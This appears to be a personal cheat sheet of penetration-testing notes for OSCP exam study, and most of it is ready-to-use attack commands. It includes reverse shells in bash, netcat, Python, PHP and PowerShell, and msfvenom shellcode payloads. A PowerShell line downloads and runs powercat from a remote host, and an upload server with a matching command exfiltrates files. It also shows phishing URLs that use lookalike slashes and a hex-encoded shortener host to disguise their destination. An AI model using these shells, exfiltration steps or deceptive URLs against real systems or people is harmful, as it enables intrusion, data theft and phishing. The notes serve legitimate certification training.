 ```yaml
---
layout: blank
pagetitle: Miscellaneous Notes
---
```


[https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/](https://johnstawinski.com/2022/10/09/oscp-2023-study-guide-new-exam-format/) [Ippsec’s videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) - vital at the beginning - show a bunch of HTB walkthroughs
- [https://ippsec.rocks/?#](https://ippsec.rocks/?#) - search up video on a topic [HackTheBox Active Directory track](https://app.hackthebox.com/tracks/Active-Directory-101) [TJ Null’s list of OSCP-like HTB machines](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159)
- `for i in \$(seq 1 254); do nc -zv -w 1 {IP/24}.$i {port}; done`
    - We have nmap at home
    - For a more basic ping sweep:
        - `for /l %i in (1,1,254) do @ping {IP/24}.%i -w 1 -n 1`

RDP on kali: `xfreerdp3 /u:{username} /p:{password} /v:{IP} (optional)/d:{domain} (optional)/drive:shared,/home/kali/Downloads/`
- Dealing with powershell wrapping? Just put the entire output in a variable and do `${variable} | Out-GridView`

Fixing Memory Corruption Exploits
- If it needs to be compiled on windows, use mingw-w64
    - `sudo apt install mingw-w64`
    - `i686-w64-mingw32-gcc`
    - `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
    - if compilation errors arise, just search them up
        - `-lws2_32` can be used for undefined references to _imp
        - `-l` can be used for statically link local libraries
- Can update shellcode in exploits with new shellcode using msfvenom
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f c`
- Encoding shellcode for binary for buffer overflow: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f raw > shellcode.bin`

Seems the WP admin creds are no longer admin/test, but rather admin/password

Phishing with fake slashes: `https://github.com∕praetorian-inc∕noseyparker∕releases∕download∕v0.23.0∕secret-noseyparker-v0.23.0-aarch64-apple-darwin.tar.gz@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32`

Another example: `https://www.amazon.com∕gp∕product∕B008A0GNA8pr=conplccinc=259d9f6c-ea4f-492b-a741-8ca016e53a70ts=abthh8sjiwjcbgqcpkynoq55p8khgag&dasin=B07774L6TT&plattr=mathplace=priceblockimp@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32?=96298722-d186-4e28-b5e9-2ca14f49d977`

Using SMTP with `swaks`
- To use an SMTP server, we need a user whose credentials we know on the domain `swaks --server {IP_with_SMTP} --body @{body_txt_file} -ap --from {user@domain} --to {target@domain} --auth-user {user@domain} --auth-password {password} --attach @{file_to_attach} --header "{header_text}"`

If error `no PostgreSQL user name specified in startup packet`, make sure to:
- add env variables:

```sh
export PGUSER=postgres
export PGDATABASE=postgres
```

Connecting to a device/switch from a mac using an ethernet cable:
- Make sure to manually set IP and interface via Network settings after connecting via USB

- `sudo apt install libpq-dev`
- `sudo apt-get install --reinstall postgresql-client`

Run powercat - `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.220:8000/powercat.ps1');powercat -c 192.168.45.220 -p 4444 -e powershell`

Search for password database - `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

To copy an executable, use `iwr -uri http://{kali_IP}/winPEASx64.exe -Outfile winPEAS.exe` instead of curl

Linux reverse shells:
- `bash -i >& /dev/tcp/{IP}/4444 0>&1`
- `busybox nc 10.10.10.10 1234 -e sh` or `busybox nc 10.10.10.10 1234 -e /bin/sh`
- `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
- `<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>`

Windows reverse shell
- Download/transfer netcat (nc.exe within `/usr/share/windows-resources/binaries/nc.exe`)
- `C:\Windows\Temp\nc.exe -e powershell.exe {kali_IP} 4444` Powershell reverse shell
- Can also just do it with powershell alone - [https://khaelkugler.com/scripts/powershell_revshell.py](https://khaelkugler.com/scripts/powershell_revshell.py)

Transfer files with xfreerdp3 - `xfreerdp3 /u:{u} /p:{p} /v:{IP} /drive:mydrive,{local_dir_path}`

Upgrading linux shell:

```sh 
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
    
```

Alternatively:
- `script /dev/null -c bash`
  - Then background the existing shell with CTRL Z
- On kali: `stty raw -echo; fg` (to continue the process)
- Type `reset` then set the terminal type to `screen`

Mount a Windows vhd:
- `sudo apt install libguestfs-tools`
- `guestmount --add {vhd_file} --inspector --ro -v /mnt/{dir_to_mount_to}`
  - `-ro` is readonly

Exfiltrate files off of a Windows system `sudo python3 app.py` (if [updog](https://github.com/sc0tfree/updog) isn't available)

```python
#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer
import os

class FileUploadHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Get the filename from the POST headers if provided
        filename = self.headers.get('filename', 'upload.bin')

        # Save the uploaded file
        with open(filename, 'wb') as f:
            f.write(post_data)

        # Send a response back to the client
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'File uploaded successfully')

if __name__ == "__main__":
    server_address = ('0.0.0.0', 8080)  # Use any port you want
    httpd = HTTPServer(server_address, FileUploadHTTPRequestHandler)
    print(f"Serving HTTP on {server_address[0]} port {server_address[1]} (http://{server_address[0]}:{server_address[1]}/)")
    httpd.serve_forever()
```

`Invoke-WebRequest -Uri "http://{kali_IP}:8080/upload" -Method Post -InFile "{filename}" -Headers @{"filename"="{filename}"} -UseBasicParsing`